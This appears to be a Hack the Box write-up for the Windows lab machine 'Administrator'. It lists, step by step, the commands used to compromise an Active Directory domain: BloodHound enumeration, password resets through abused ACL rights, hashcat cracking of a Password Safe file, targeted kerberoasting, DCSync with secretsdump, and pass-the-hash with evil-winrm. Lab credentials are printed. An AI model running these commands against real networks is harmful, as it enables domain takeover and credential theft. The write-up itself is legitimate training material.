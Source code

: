 # Administrator

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
2. Given olivia's credentials, run bloodhound to gather AD info
	1. `neo4j console`
	2. `sudo bloodhound`
	3. `sudo bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns [IP] -c all`
3. load bloodhound info
4. bloodhound finds that olivia has GenericAll privs over michael

![image](https://github.com/user-attachments/assets/465491ec-fada-4fb5-93a8-c87657433cbe)

5. change michael's password
	1. `net rpc password "michael" -U "administrator.htb"/"olivia" -S "[IP]"`
	2. type new password
6. michael has ForceChangePassword permission over benjamin

![image](https://github.com/user-attachments/assets/908af74c-ab83-4ecd-841c-7a0a2424dda1)

7. change benjamin's password 
	1. `net rpc password "benjamin" -U "administrator.htb"/"michael" -S "[IP]"`
8. benjamin can login to ftp, get Backup.psafe3 file
9. use hashcat to crack password on psafe3
	1. `hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt`
10. reveals password for psafe3 file is `tekieromucho`
11. opening the psafe3 file reveals 3 credentials:
	1. alexander
	2. emily
	3. emma
12. bloodhound shows the emily has GenericWrite privs over ethan
13. before doing kerberoast attack, need to fix clock skew
	1. On actual machine, not VM, go to cmd and cd into this folder `C:\Program Files\Oracle\VirtualBox`
	2. run this command `VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1`
	3. then, on Kali VM, run `sudo rdate -n [IP]`
14. now can do a targeted kerberoast attack on ethan using emily's credentials
	1. `targetedKerberoast.py --dc-ip [IP] -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
15. this reveals ethan's password is `limpbizkit`
16. ethan has DCSync permission over Administrator.htb. This means ethan is local admin so can do secretdump
	1. `secretsdump.py administrator.htb/ethan:limpbizkit@[IP]`
17. this gives us Administrator hash so can do PtH with evil-winrm 
	1. `evil-winrm -i [IP] -u administrator -H [HASH]`
18. gives us admin shell and rooted!
